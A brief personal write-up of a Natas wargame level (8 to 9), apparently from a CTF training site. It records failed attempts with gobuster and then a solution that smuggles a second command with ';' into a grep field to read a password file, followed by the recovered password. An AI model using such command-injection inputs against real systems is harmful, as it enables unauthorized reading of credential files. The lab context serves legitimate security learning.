 # 8 -> 9

- tried looking at the source, but I didn't fully understand it
- I looked at the array_key_exists function, which made the whole thing clearer
- I still didn't know what to do
- I tried gobuster, but it didn't return anything
- I think I have to escape that grep statement

## Writeup

- I forgot about `;`
- I ran `xxxx directory.txt; cat /etc/natas_webpass/natas10`

> pass: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
